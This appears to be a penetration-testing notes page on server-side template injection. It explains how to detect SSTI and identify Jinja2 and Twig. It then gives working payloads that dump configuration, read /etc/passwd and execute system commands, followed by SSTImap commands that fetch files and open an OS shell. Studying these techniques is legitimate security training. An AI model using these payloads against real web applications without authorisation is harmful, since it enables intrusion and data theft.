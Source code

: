 ```yaml
---
layout: default
title: SSTI
permalink: /Web/ssti/
---
```


# Server-Side Template Injection (SSTI)
A template engine is software that combines pre-defined templates with dynamically generated data and is often used by web applications to generate dynamic responses.
This generation is often based on user input, enabling the web application to respond to user input dynamically.
When an attacker can inject template code that is later rendered by the server, a Server-Side Template Injection vulnerability can occur.
Popular examples of template engines are Jinja and Twig.
## Templating
### Jinja2
Example:
{% raw %}
```
Hello {{ name }}!
```
{% rawend %}
It contains a single variable called `name`, which is replaced with a dynamic value during rendering.
For-loop over all elements in the `names` variable (if is like `names=["name", "name2", "name3"]`):
{% raw %}
```
{% for name in names %}
Hello {{ name }}!
{% endfor %}
```
{% rawend %}
## Confirming SSTI
The most effective way is to inject special characters with semantic meaning in template engines and observe the web application's behavior.
Example:
{% raw %}
```
${{<%[%'"}}%\.
```
{% rawend %}
## Identifying the Template Engine
We can utilize slight variations in the behavior of different template engines. We can use this decision tree by following the green sign in case of successful code execution and the red cross in case of the payload wasn't executed:
{% raw %}
```
${7*7}
├── ✅ a{*comment*}b
│   ├── ✅ Smarty
│   └── ❌ ${"z".join("ab")}
│       ├── ✅ Mako
│       └── ❌ Unknown
└── ❌ {{7*7}}
    ├── ✅ {{7*'7'}}
    │       ├── ✅  Jinja2
    │       ├── ✅  Twig
    │       └── ❌ Unknown
    └── ❌ Not vulnerable
```
{% endraw %}
*Note: There are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).
## Exploiting SSTI in Jinja2

### Information Disclosure
Payload to dump the entire web application configuration:
{% raw %}
```
{{ config.items() }}
```
{% rawend %}
Payload to dump all available built-in functions:
{% raw %}
```
{{ self.__init__.__globals__.__builtins__ }}
```
{% rawend %}
### Local File Inclusion (LFI)
{% raw %}
```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% rawend %}
### Remote Code Execution (RCE)
We can use functions provided by the os library, such as system or popen. However, if the web application has not already imported this library, we must first import it by calling the built-in function import:
{% raw %}
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
{% rawend %}
## Exploiting SSTI in Twig
### Information Disclosure
Payload to get information about the current template:
{% raw %}
```
{{ _self }}
```
{% rawend %}
### Local File Inclusion (LFI)
The PHP web framework Symfony defines additional Twig filters. One of these filters is file_excerpt and can be used to read local files:
{% raw %}
```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
{% rawend %}
### Remote Code Execution (RCE)
{% raw %}
```
{{ ['id'] | filter('system') }}
```
{% rawend %}
## Tools of the Trade
Popular tools for identifying and exploiting SSTI vulnerabilities are [tplmap](https://github.com/epinna/tplmap) and [SSTImap](https://github.com/vladko312/SSTImap).
### SSTImap
```
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
python3 sstimap.py
```
To automatically identify any SSTI vulnerabilities as well as the template engine used by the web application, we need to provide SSTImap with the target URL:
```
python3 sstimap.py -u http://$ip/index.php?name=test
```
We can download a remote file to our local machine using the `-D` flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -D '/etc/passwd' './passwd'
```
We can execute a system command using the -S flag:
```
python3 sstimap.py -u http://$ip/index.php?name=test -S id
```
Alternatively, we can use --os-shell to obtain an interactive shell:
```
python3 sstimap.py -u http://$ip/index.php?name=test --os-shell
```
